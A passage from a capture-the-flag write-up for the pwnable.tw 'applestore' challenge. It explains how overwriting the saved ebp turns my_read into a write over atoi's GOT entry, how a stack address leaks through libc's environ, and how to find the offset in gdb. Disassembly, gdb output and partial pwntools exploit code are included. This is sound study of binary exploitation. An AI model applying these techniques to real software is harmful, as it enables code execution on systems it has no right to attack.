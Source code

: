 
I was stuck here for a very long time and drew inspiration from [this writeup](https://blog.srikavin.me/posts/pwnable-tw-applestore/). I'll do my best to re-explain it here. The basic idea is that we will write `atoi` to a stack address instead. First, take a look at this code snippet inside `handler`, which is `delete`'s callee.  
```
   0x08048bfd <+42>:	mov    DWORD PTR [esp+0x4],0x15
   0x08048c05 <+50>:	lea    eax,[ebp-0x22]
   0x08048c08 <+53>:	mov    DWORD PTR [esp],eax
   0x08048c0b <+56>:	call   0x8048799 <my_read>
   0x08048c10 <+61>:	lea    eax,[ebp-0x22]
   0x08048c13 <+64>:	mov    DWORD PTR [esp],eax
   0x08048c16 <+67>:	call   0x8048560 <atoi@plt>
```
The idea comes from the fact that our goal is to overwrite atoi's GOT entry with system's address. What if we overwrote `ebp` instead? Essentially, what if we set `ebp` to be the address of `atoi` minus 0x22? This would mean that `ebp-0x22` is the address of `atoi`, which would mean that `my_read` would write to `atoi`! Even more conveninently, my_read would read directly from stdin. So all we have to do is send the address of system to stdin, and provide `/bin/sh` as the input to `atoi`, which would be overwritten by `my_read` to `system`. However, there is a big problem here: we don't know the address of `ebp`. 

Luckily, we can use `libc` to leak stack addresses. This is because of a constant known as `environ`, which has the same value as `envp`. You can read about it [here](https://github.com/Naetw/CTF-pwn-tips#leak-stack-address). Since we know the base address of libc, we can calculate the address of `environ`, which gives us an address on the stack.

This is all we need. ALSR only randomizes the stack offset, meaning the distance between two variables on the stack will always be the same. So therefore, all we need to do is calculate the distance between `envp` and `ebp`. 

To do this, we must overwrite the saved `ebp` address in `delete`. Recall that when a function hits the `leave` instruction in assembly, the previous function's stack frame is restored by popping the last value on the stack into `rbp`. So we would need to target the value that is popped onto `rbp` with our write-what-where gadget. This can be done by simply going to gdb and setting a breakpoint on the `leave` instruction and subtracting `ebp`'s address from `environ`'s stack address.
```
gef➤  x/wx $ebp
0xff9afce8: 0x0804b062
gef➤  p (void **) environ
$1 = (void **) 0xff9afdf0
gef➤  p 0xff9afdf0 - 0xff9afce8
$2 = 0x108
```
The offset I get is 264. NOTE that this number is a little fuzzy. On the remote server, I had to use offset 260 to get my exploit working, and  different environments will likely have different offsets. Knowing this, we can construct our GOT overwrite. Here is the relevant code from my exploit:
```py
def www(what, where):
    r.recvuntil("> ")
    r.sendline("3")
    r.recvuntil("> ")
    payload = b""
    payload += b"27"
    payload += b"\x00" * 4
    payload += b"\x00" * 4
    payload += where
    payload += what
    r.sendline(payload)

# environ leak
payload = b""
payload += p32(libc.symbols["environ"])
payload += p32(libc.symbols["environ"])
payload += p32(0)
payload += p32(0)
```